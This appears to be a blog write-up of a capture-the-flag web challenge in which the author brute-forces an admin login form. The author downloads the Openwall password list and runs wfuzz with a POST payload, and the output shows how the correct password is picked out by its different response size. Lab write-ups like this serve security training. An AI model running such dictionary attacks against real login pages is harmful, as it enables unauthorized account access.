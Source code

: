 ```yaml
---
layout: post
title: Infosec Institute CTF2 Practical Web Hacking Level 12
category: Web
tags: CTF challenges
---
```


# ctf.infosecinstitute.com: Level 12
**Vulnerability** Dictionary Attack
**Description:**

![screen]({{site.url}}/assets/Screen Shot 2015-07-17 at 7.10.58 PM.png)

## Write-up

For almost all levels I will be using Burpsuite. Burpsuite is an interception proxy that lets us modify the HTTP request
 / response by intercepting the data between the browser and the web server.
 
Let's be good boys and listen to the web page talking! Googling "filetype:lst password" takes us to
http://www.openwall.com/passwords/wordlists/password-2011.lst  
Download the password list in our local directory.

{% highlight bash linenos %}
/infosec2$ wget http://www.openwall.com/passwords/wordlists/password-2011.lst
--2015-07-17 19:14:21--  http://www.openwall.com/passwords/wordlists/password-2011.lst
Resolving www.openwall.com (www.openwall.com)... 195.42.179.202
Connecting to www.openwall.com (www.openwall.com)|195.42.179.202|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 26215 (26K) [text/plain]
Saving to: `password-2011.lst'

100%[==========================================================================================>] 26,215      46.7K/s   in 0.5s    

2015-07-17 19:14:23 (46.7 KB/s) - `password-2011.lst' saved [26215/26215]

/infosec2$ 
{% endhighlight %}

This time we are not going to use Burpsuite, because Burpsuite's Intruder feature is being throttled in the free edition of Burp.
Instead we are going to use a tool called wfuzz. The syntax is as follows:

{% highlight bash linenos %}
/infosec2$ wfuzz -c -z file,password-2011.lst -d "username=admin&password=FUZZ&logIn=Login" http://ctf.infosecinstitute.com/ctf2/exercises/ex12.php
{% endhighlight %}

'-c' is used for color output, '-z' for payload type that's why it's follow by "file" and the name of the file "password-2011.lst"
that we just downloaded. '-d' is for POST data, we can get that either by looking at the request with Burp or the source code of the
submission form. And at the end we need to send our request to the correct URL and php page intended for the form.

Wfuzz is going to start using each of the words in our dictionary file in place of the keyword 'FUZZ' which we placed
in the POST data of the request.

{% highlight bash linenos %}
/infosec2# wfuzz -c -z file,password-2011.lst -d "username=admin&password=FUZZ&logIn=Login" http://ctf.infosecinstitute.com/ctf2/exercises/ex12.php

********************************************************
* Wfuzz  2.0 - The Web Bruteforcer                     *
********************************************************

Target: http://ctf.infosecinstitute.com/ctf2/exercises/ex12.php
Payload type: file,password-2011.lst

Total requests: 3557
==================================================================
ID	Response   Lines      Word         Chars          Request    
==================================================================

00001:  C=200    138 L	     309 W	   4880 Ch	  "en compiled by Solar Designer of Openwall Project,"
00002:  C=200    138 L	     309 W	   4880 Ch	  " - 1234567890"
00003:  C=200    138 L	     309 W	   4880 Ch	  " - #!comment:"
00004:  C=200    138 L	     309 W	   4880 Ch	  " - password"
00005:  C=200    138 L	     309 W	   4880 Ch	  " - #!comment: http://www.openwall.com/wordlists/"
00006:  C=200    138 L	     309 W	   4880 Ch	  "990's, sorted for decreasing number of occurrences"
00007:  C=200    138 L	     309 W	   4880 Ch	  " - #!comment:"
00008:  C=200    138 L	     309 W	   4880 Ch	  " - 12345678"
00009:  C=200    138 L	     309 W	   4880 Ch	  " - 123456"
00010:  C=200    138 L	     309 W	   4880 Ch	  " - abc123"
**** omitted for space ****
00282:  C=200    138 L	     309 W	   4880 Ch	  " - peace"
00283:  C=200    138 L	     309 W	   4880 Ch	  " - peanut"
00284:  C=200    138 L	     309 W	   4880 Ch	  " - phantom"
00285:  C=200    143 L	     284 W	   4731 Ch	  " - princess"
00286:  C=200    138 L	     309 W	   4880 Ch	  " - popcorn"
00287:  C=200    138 L	     309 W	   4880 Ch	  " - pumpkin"
00288:  C=200    138 L	     309 W	   4880 Ch	  " - purple"
00289:  C=200    138 L	     309 W	   4880 Ch	  " - psycho"
{% endhighlight %}

We can see that even incorrect passwords return 200OK HTTP response code, so the trick here would be to look for
returned pages with unusual character count. If you notice each of the passwords used returns a page with character count of
4880, except password "princess" which returned a page with 4731 characters, so let's try that !

![screen3]({{site.url}}/assets/Screen Shot 2015-07-17 at 7.27.34 PM.png)

## Links

* <http://ctf.infosecinstitute.com/ctf2/exercises/ex12.php>
